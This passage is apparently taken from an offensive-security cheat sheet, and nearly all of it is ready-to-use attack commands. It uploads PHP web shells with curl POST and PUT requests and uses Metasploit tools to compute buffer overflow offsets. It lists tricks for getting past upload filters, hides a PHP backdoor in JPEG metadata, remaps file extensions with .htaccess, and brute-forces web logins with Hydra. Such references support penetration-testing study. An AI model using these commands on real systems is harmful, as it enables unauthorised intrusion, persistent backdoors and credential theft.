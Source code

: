 ```bash
# POST file
curl -X POST -F "file=@/file/location/shell.php" http://$TARGET/upload.php --cookie "cookie"

# POST binary data to web form
curl -F "field=<shell.zip" http://$TARGET/upld.php -F 'k=v' --cookie "k=v;" -F "submit=true" -L -v
```

### PUTing File on the Webhost via PUT verb

```bash
curl -X PUT -d '<?php system($_GET["c"]);?>' http://192.168.2.99/shell.php
```

### Generating Payload Pattern & Calculating Offset

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q $EIP_VALUE
```

### Bypassing File Upload Restrictions

* file.php -&gt; file.jpg
* file.php -&gt; file.php.jpg
* file.asp -&gt; file.asp;.jpg
* file.gif \(contains php code, but starts with string GIF/GIF98\)
* 00%
* file.jpg with php backdoor in exif \(see below\)
* .jpg -&gt; proxy intercept -&gt; rename to .php

### Injecting PHP into JPEG

```bash
exiv2 -c'A "<?php system($_REQUEST['cmd']);?>"!' backdoor.jpeg
exiftool “-comment<=back.php” back.png
```

### Uploading .htaccess to interpret .blah as .php

```text
AddType application/x-httpd-php .blah
```

### Cracking Passwords

#### Cracking Web Forms with Hydra

```bash
hydra 10.10.10.52 http-post-form -L /usr/share/wordlists/list "/endpoit/login:usernameField=^USER^&passwordField=^PASS^:unsuccessfulMessage" -s PORT -P /usr/share/wordlists/list
```

#### Cracking Common Protocols with Hydra
